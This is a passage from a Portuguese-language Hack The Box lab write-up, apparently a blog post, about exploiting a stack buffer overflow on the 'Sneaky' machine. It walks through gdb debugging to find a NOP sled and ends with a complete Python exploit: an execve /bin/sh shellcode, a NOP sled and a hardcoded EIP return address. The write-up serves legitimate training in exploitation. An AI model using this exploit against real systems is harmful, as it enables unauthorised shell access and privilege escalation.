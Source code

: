 O payload ficou assim

Binário - Nops tamanho do buffer até o EIP + shellcode + Endereço do ESP

Vamos testar então... pra ver se deu certo ou não

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sneaky/S_eip4.png)

Não deu! Vamos debugar pra ver o que está acontecendo, pra isso abrimos ele e executamos dentro do gdb

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sneaky/S_eip5.png)

Verificamos o que está no ESP nesse momento

Não encontramos nops, estranho...

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sneaky/S_eip6.png)

Então vamos verificar 500 endereços acima do ESP, agora começaram a aparecer os NOPS

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sneaky/S_eip7.png)

Subimos mais 500 e encontramos o endereço que setamos pra ser o EIP

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sneaky/S_eip8.png)

Hum... ta estranho, pq ele não bate em nops e subindo mais 500 endereços, encontramos mais NOPS, então os nops estão em locais diferentes da memória

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sneaky/S_eip9.png)

Subimos mais 500 pra verificar qual podemos utilizar pra ser nosso novo EIP

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sneaky/S_eip10.png)

Vamos utilizar esse `0xbffff870`, poderia ser qualquer um acima, iria dar certo, uma vez que só tem Nops neles

Corrigimos o exploit

### Exploit final

exploit.py
```
# Tamanho do buffer

BUFFER_SIZE=362

#ShellCode utilizado

SHELL_CODE = "\x31\xc0\x50\x68\x2f\x2f\x73"
SHELL_CODE += "\x68\x68\x2f\x62\x69\x6e\x89"
SHELL_CODE += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
SHELL_CODE += "\xcd\x80\x31\xc0\x40\xcd\x80"

#Nops

NOP_SLED = "\x90"*(BUFFER_SIZE-len(SHELL_CODE))

# 0xbffff550

# Novo Eip 0xbffff870

EIP = "\x70\xf8\xff\xbf"

PAYLOAD = NOP_SLED + SHELL_CODE + EIP
print PAYLOAD
```